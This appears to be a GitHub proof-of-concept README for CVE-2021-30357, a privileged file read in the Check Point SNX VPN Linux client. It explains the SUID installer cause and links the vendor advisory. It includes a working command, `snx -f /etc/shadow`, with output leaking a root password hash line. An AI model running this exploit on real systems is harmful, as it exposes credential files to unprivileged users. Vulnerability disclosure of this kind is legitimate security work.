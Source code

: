 # CVE-2021-30357_CheckPoint_SNX_VPN_PoC
Proof-of-Concept for privileged file read through CheckPoint SNX VPN Linux Client.

# Affected Version

- CheckPointVPN_SNX_Linux_800007075.sh
- MD5 Checksum: 4372e9936e2dfb1d1ebcef3ed4dd7787


# Exploit 

To exploit just load any file as SNX config using the `-f` paremeter. If the file is not a valid SNX config, it will throw an error and display syntax error, leaking the contents until string terminator is found (e.g. `etc/shadow`):

```bash
$ /usr/bin/snx -f /etc/shadow

parsing of the file: /etc/shadow  failed: Line 1: unknown attribute 'root:$6$Mi[REDACTED]VwUSrc2ioKt.2Mex.yF.:18624:0:99999:7:::'

Valid attributes are:

   - server          SNX server to connet to
   - sslport         The SNX SSL port (if not default)
   - username        the user name

(...)
```

# Vulnerability 

The cause is due to the executable `/usr/bin/snx` having the SETUID bit and running as super-user, set during installation.

In particular, the variable COMMAND_TO_RUN defined in .sh installation file (`CheckPointVPN_SNX_Linux_800007075.sh`):

```bash
[...]
COMMAND_TO_RUN="install --owner=root --group=root --mode=u=rxs,g=x,o=x snx /usr/bin/snx; install --owner=root --group=root --mode=u=rx,g=rx,o=rx snx_uninstall.sh /usr/bin/snx_uninstall; install --directory --owner=root --group=root --mode=u=rwx /etc/snx; install --directory --owner=root --group=root --mode=u=rwx /etc/snx/tmp"
```
 
In the parameter `--mode=u=rxs`, the last `s` sets the SUID bit, thus leading to run the executable binary as root.


# Official Advisory

- https://support.checkpoint.com/results/sk/sk173513
- https://vrls.ws/posts/2021/06/cve-2021-30357-check-point-software-vpn-arbitrary-file-read/
